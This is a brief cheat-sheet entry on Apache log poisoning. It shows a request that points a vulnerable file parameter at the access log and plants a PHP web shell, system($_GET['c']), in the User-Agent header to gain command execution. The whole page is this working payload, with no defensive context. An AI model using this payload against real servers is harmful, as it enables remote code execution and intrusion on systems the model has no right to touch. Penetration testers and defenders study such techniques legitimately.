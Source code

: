 # Log Poisoning

---

## Apache2

Modify the following inputs and poison the apache logs.

```
GET /browse.php?file=/var/log/httpd-access.log
User-Agent: <?php system($_GET['c']); ?>
```


